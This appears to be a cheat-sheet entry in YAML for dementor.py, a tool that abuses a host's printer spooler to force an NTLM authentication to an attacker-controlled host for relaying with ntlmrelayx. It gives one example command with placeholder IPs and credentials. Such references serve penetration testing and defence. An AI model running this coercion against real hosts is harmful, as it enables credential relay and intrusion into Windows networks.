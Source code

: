 ```yaml
---
description: |
  dementor.py interacts with the printer spooler on a host to trigger an authentication from the target IP to an attacker controlled host (usually an SMB or HTTP server). This captured authentication can then be relayed to authenticated to other hosts. See more in ntlmrelayx.py. 

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

functions:
  Password:
    - code: |
        python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1
  Username:
    - code: |
        empty
  RPC:
    - code: |
        empty
---
```

